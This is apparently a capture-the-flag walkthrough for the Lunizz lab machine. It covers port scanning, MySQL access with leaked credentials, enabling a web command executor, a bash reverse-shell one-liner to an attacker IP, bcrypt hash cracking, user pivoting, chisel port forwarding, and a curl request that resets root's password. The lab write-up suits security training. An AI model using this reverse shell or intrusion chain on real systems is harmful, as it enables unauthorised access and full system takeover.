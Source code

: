 **Target: 10.10.207.7  Lunizz-CTF**

**Initial Access:**\
nmap -Pn 10.10.207.7 --min-rate=5000 -p-|grep open|awk -F '/' '{print $1}'|tr '\n' ',' \
Output shows open ports: 80,3306,4444,5000

Enumerate these open ports further with nmap:\
nmap -Pn 10.10.207.7 --min-rate=5000 -p 80,3306,4444,5000 -sC -sV -oN nmap.lunizz \
The output of the nmap is quite long, here is a brief summary of the output: 

![image](https://user-images.githubusercontent.com/93153300/199835815-3d746b6a-2f44-4b03-baa4-b162fd22db12.png)

Navigate to port 80.  Port 80 is just a regular apache page, nothing of interest found. \
Run directory brute force on port 80: \
dirsearch -r -u http://10.10.207.7/ -e txt,html -f -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

dirsearch found a few interesting directories: \
http://10.10.207.7/instructions.txt \
http://10.10.207.7/whatever/

Navigating to http://10.10.207.7/whatever shows: 

![image](https://user-images.githubusercontent.com/93153300/199835899-94955084-d217-4313-bf21-421710fd50a8.png)
 
The page shows a command executor page, however running commands doesn’t work.  It’s interesting to note at the top left corner it says ‘Command Executor Mode: 0’.  Maybe the mode has to be changed for it to run commands.  For now, we can’t do anything more with this page, so let’s move on to http://10.10.207.7/instructions.txt.  The page shows:

![image](https://user-images.githubusercontent.com/93153300/199835929-54606d89-6457-46fa-90eb-6845faae67f9.png)
  
This shows mysql credentials: username ‘runcheck’, password ‘CTF_script_cave_changeme’.  Use the credentials to log in to mysql with command: mysql -h 10.10.207.7 -u runcheck -p → when prompted for password enter  ‘CTF_script_cave_changeme’.  \
Check what databases we have with command: show databases; 

![image](https://user-images.githubusercontent.com/93153300/199835948-edaae036-5a63-4338-a0e7-96690156988c.png)

Take a look at database ‘runornot’ with command: use runornot; \
Next, look at the tables in database ‘runornot’ with command: show tables; 

![image](https://user-images.githubusercontent.com/93153300/199835970-fc5a19d6-6641-402d-9697-a635462824d1.png)

Dump the data for the table ‘runcheck’ with command: select * from runcheck;

![image](https://user-images.githubusercontent.com/93153300/199835984-6bb28b81-49cc-4d62-bd84-8009d02eab1b.png)

This run 0 seems like it might correlate to the http://10.10.207.7/whatever/ page where it shows ‘Mode 0’.   Maybe if we change the value to 1 we will be able to run commands on that page.  Check the mysql user permissions we have, as we want to know if we can update this value from a 0 to a 1.  To check this use command: show grants;

![image](https://user-images.githubusercontent.com/93153300/199836007-bba7818f-98ed-4731-bce3-af784b3872cf.png)

This shows we do have permission to update, so update the column run from 0 to 1.  Use command: update runcheck set run=1;

Looking back at http://10.10.207.7/whatever/ shows:

![image](https://user-images.githubusercontent.com/93153300/199836029-0580e27d-c898-42cc-8707-42c86abbca3e.png)

This confirms our theory that the ‘run’ column correlates to this page, and that as ‘mode: 1’ we can run commands.  Command id ran successfully.  Use this page to get a reverse shell.  First, open a netcat listener with command: nc -lvnp 443 (I will use pwncat-cs -lp 443 bc pwncat is a better shell).  Next, replace command id with command: bash -c 'bash -i >& /dev/tcp/10.2.1.148/443 0>&1'. 

We have shell as www-data.  
____________________________________________________________________________
**Lateral Movemenet:**\
File /etc/passwd shows users adam and mason.

Looking aorund, we find a /proct directory, that is an unusual directory.  Go to /proct/pass and read the  bcrypt_encryption.py file:

![image](https://user-images.githubusercontent.com/93153300/199836052-010aa20e-eea6-4174-b083-aec4e056dbbe.png)

Trying password ‘wewillROCKYOU’ for user adam and user mason doesn’t work.  It is probably hinting that the password is found in the rockyou.txt file, and not that the password is actually ‘wewillROCKYOU’.  We see a ‘hashAndSalt’ value given at the end of the script.  Write a script to crack that hash and get the password.  

The ‘hashAndSalt’ is a salt and a hash, so in order to crack it we need to know the value of the salt.  Even though the  ‘bcrypt_encryption.py’ file doesn’t seem to tell us what the salt is, we can figure out the salt value based on the given hash and knowing it is using bcrypt.  The wikipedia page on bcrypt (https://en.wikipedia.org/wiki/Bcrypt) explains how the bcrypt string is broken down:

![image](https://user-images.githubusercontent.com/93153300/199836082-478d761c-c0f4-4721-8ae3-e438af7e006b.png)

Based on the wikipedia page, let’s break down our hash: $2b$12$LJ3m4rzPGmuN1U/h0IO55.3h9WhI/A0Rcbchmvk10KWRMWe4me81e
```Alg= $2b$```
```cost= 12$```
```Salt=  LJ3m4rzPGmuN1U/h0IO55.```
```Hash= 3h9WhI/A0Rcbchmvk10KWRMWe4me81e```

Based on this understanding, write this script (or a similar script of your own):

![image](https://user-images.githubusercontent.com/93153300/199836116-8825d4db-dd12-4e67-aae2-01939d640023.png)
 
Run the python script.  Found password ‘bowwow’. \
Use the password to change to user adam with command: su adam→ when prompted enter the password.  We have shell as adam.
_________________________________________________________________________
**Lateral Movement:**\
Go to /home/adam/Desktop/.archive and read file ‘to_my_best_friend_adam.txt’

![image](https://user-images.githubusercontent.com/93153300/199836152-efe3a05a-9e27-4adf-ae58-b8461743a52f.png)
 
The file seems to indicate that the place he loves is his password.  We already have adam’s password, so perhaps this is mason’s password.  Navigate to the url shown at the end of the file ‘to_my_best_friend_adam.txt’:

![image](https://user-images.githubusercontent.com/93153300/199836185-eb8e7bcb-1e4e-4ed2-b7e9-b17fa18cb162.png)
 
The url shows that the name of the place is Pitkajarvi lake -Northern lights. 
Run command: su mason→ when prompted for password enter the password ‘northernlights’.  We have shell as mason, can get the flag at /home/mason/user.txt
______________________________________________________________________
**Privilege Escalation:**\
Check network connections with command ‘netstat -an’ shows:

![image](https://user-images.githubusercontent.com/93153300/199836207-19255300-353a-4dda-b997-9c933c6b861a.png)

Found a new open port we didn’t find earlier with nmap, port 8080.   This is because it is only open to 127.0.0.1, not to the public.    Use chisel to port forward port 8080 so we will have access to port 8080.  Here are the steps to perform port forwarding with chisel:\
Step 1:  in our terminal, run ./chisel server -p 9999 –reverse \
Step 2: upload chisel to the mason target shell \
Step 3: chmod +x chisel \
Step 4: ./chisel client ```<LHOST>```:9999 R:1111:127.0.0.1:8080

![image](https://user-images.githubusercontent.com/93153300/199836235-838a234d-f036-4e03-a119-3a07bad83061.png)
These steps with chisel will cause anything sent to ourselves (127.0.0.1) at port 1111 will be redirected to the target 127.0.0.1:8080.   Navigating to the site http://127.0.0.1:1111 shows:

![image](https://user-images.githubusercontent.com/93153300/199836266-6d2a4140-54ba-4a3c-90e1-9c2e1c55024c.png)

The site shows that we can run 3 commands as root (lsla, reboot, and passwd) as long as we send mason’s password with this request.  Run command: \
curl -i -X POST http://127.0.0.1:1111 --data ‘password=northernlights&cmdtype=passwd’

![image](https://user-images.githubusercontent.com/93153300/199836295-9dc82f28-352f-4e2e-b145-a7e27e5f1b0c.png)
 
This changed root’s password to northernlights.  Going back to our mason shell, run command: su → when prompted for a password enter ‘northernlights’.  We have shell as root, can get the flag at /root/r00t.txt. 

